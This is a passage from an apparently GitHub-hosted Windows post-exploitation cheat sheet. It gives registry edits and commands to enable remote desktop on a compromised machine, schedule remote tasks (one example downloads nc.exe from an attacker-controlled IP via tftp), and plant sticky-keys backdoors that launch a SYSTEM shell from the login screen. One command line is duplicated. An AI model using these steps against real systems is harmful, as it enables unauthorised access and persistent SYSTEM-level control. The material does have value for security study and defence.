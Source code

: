  1. Create another file named `enable_ts.reg` containing the contents below. 

    <pre>
     Windows Registry Editor Version 5.00
     [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
     "fDenyTSConnections"=dword:00000000
     "TSEnabled"=dword:00000001
     "TSUserEnabled"=dword:00000000
    </pre>

 1. On the remote system, execute the following commands:
      
    <pre>c:\> sc config termservice start= auto sc config termservice start= auto
c:\> regedit /s enable_ts.reg
c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\new.secedit.sdb
c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\orig.secedit.sdb
c:\> secedit /configure /db new.secedit.sdb /cfg fix_ts_policy.ini
c:\> gpupdate /Force
c:\> net start "terminal services"
</pre>


### Scheduler
The [Windows scheduler](http://support.microsoft.com/kb/313565) can be used to further compromise a system. It usually runs at the SYSTEM account privilege level. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 58)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely schedule tasks using the commands below.

<pre>
c:\> net use \\[TargetIP]\ipc$ password /user:username
c:\> at \\[TargetIP] 12:00 pm command
</pre>

An example you might run on the remote system might be: `at \\192.168.1.1 12:00pm tftp -I [MyIP] GET nc.exe`


### Sticky Keys (Requires reboot)
Sticky keys on Windows systems are activated when the user presses the SHIFT key 5 times. Here, according to the [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), you replace the sethc.exe binary with your own binary (cmd.exe maybe?) and, when SHIFT is pressed 5 times, your binary is executed. Your binary will execute as SYSTEM and needs to replace the `%WINDIR%\System32\sethc.exe`. 

Some caveats:
* If NLA (Network Layer Authentication) is enabled, this won't work
* If RDP (Remote Desktop Protocol) is disabled, this won't work


### Sticky Keys (No reboot)
This technique uses registry entries to switch the binary that the sticky keys executes. Its real advantage is that it does not require a reboot for the switch to take place. 
* In the `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` make a key called `sethc.exe`
* Make a REG_SZ value called "Debugger" (Ensure it is capitalized)
* For the "Debugger" REG_SZ, make it have a value of your binary
* Press SHIFT 5 times and your binary should be executed
